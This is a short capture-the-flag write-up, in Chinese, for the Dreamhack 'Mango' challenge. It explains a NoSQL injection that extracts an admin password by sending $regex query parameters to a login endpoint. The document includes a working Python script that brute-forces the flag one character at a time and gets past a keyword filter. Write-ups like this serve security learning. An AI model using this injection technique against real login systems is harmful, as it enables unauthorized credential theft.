




# Mango

題目

> 이 문제는 데이터베이스에 저장된 플래그를 획득하는 문제입니다.  
> 플래그는 admin 계정의 비밀번호 입니다.  
> 플래그의 형식은 DH{...} 입니다.  
> {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}

進來首先會看到



按照題目給的輸入 `/login?uid=admin&upw=DH{32alphanumeric}` 會發現被過濾掉了



題目禁止掉了關於 admin 之類的字樣



用 script 去用正則表示法跳過 DH 檢查猜密碼

```py
import requests

url = 'http://host1.dreamhack.games:16943/login?uid[$regex]=ad.in&upw[$regex]=D.*{'
pw = ''
alphabet = 'abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ{}'

while True:
    for c in alphabet:
        new_pw = pw + c + '.*'
        print(new_pw)
        new_url = url + new_pw
        response = requests.get(new_url, timeout=10)
        if 'admin' in response.text:
            pw = new_pw[:-2]
            break
        elif 'err' in response.text:
            print('error:', new_pw)
            pw = '.*' + c
            break
        if c == '}':
            print('flag:', 'DH{' + pw)
            exit()
    else:
        break

```


